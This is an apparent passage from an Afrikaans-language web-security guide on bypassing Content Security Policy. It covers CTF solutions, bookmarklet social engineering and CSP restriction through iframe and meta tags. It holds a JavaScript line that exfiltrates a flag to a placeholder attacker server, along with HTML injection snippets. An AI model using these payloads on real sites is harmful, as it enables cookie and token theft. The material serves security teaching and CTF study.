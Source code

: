 ```html
if (i == alphabet.length) {
console.log("missing chars")
break
}
let t = await query(prefix + "}", true)
if (t) {
prefix += "}"
break
}
}
new Image().src = "http://PLAYER_SERVER/?" + prefix //Exfiltrate the flag
console.log(prefix)
}

run()
</script>
```
### Via Bookmarklets

Hierdie aanval sou 'n bietjie sosiale ingenieurswese impliseer waar die aanvaller **die gebruiker oortuig om 'n skakel oor die bladmerk van die blaaier te sleep en te laat val**. Hierdie bladmerk sou **kwaadwillige javascript** kode bevat wat, wanneer gesleep en laat val of geklik, in die konteks van die huidige webvenster uitgevoer sou word, **CSP omseil en toelaat om sensitiewe inligting** soos koekies of tokens te steel.

Vir meer inligting [**kyk die oorspronklike verslag hier**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### CSP omseiling deur CSP te beperk

In [**hierdie CTF skrywe**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), word CSP omgegaan deur binne 'n toegelate iframe 'n meer beperkende CSP in te spuit wat die laai van 'n spesifieke JS-lêer verbied het wat, dan, via **prototype besmetting** of **dom klobbering** toegelaat het om **'n ander skrip te misbruik om 'n arbitrêre skrip te laai**.

Jy kan **'n CSP van 'n Iframe beperk** met die **`csp`** attribuut:
```html
<iframe
src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]"
csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
In [**hierdie CTF skrywe**](https://github.com/aszx87410/ctf-writeups/issues/48), was dit moontlik via **HTML inspuiting** om 'n **CSP** meer te **beperk** sodat 'n skrip wat CSTI voorkom, gedeaktiveer is en daarom het die **kwesbaarheid uitvoerbaar geword.**\
CSP kan meer beperkend gemaak word deur **HTML meta-tags** te gebruik en inline skripte kan gedeaktiveer word deur die **invoer** wat hul **nonce** toelaat te **verwyder** en **spesifieke inline skrip via sha** te aktiveer:
```html
<meta
http-equiv="Content-Security-Policy"
content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';" />
```
### JS ekfiltrasie met Content-Security-Policy-Report-Only
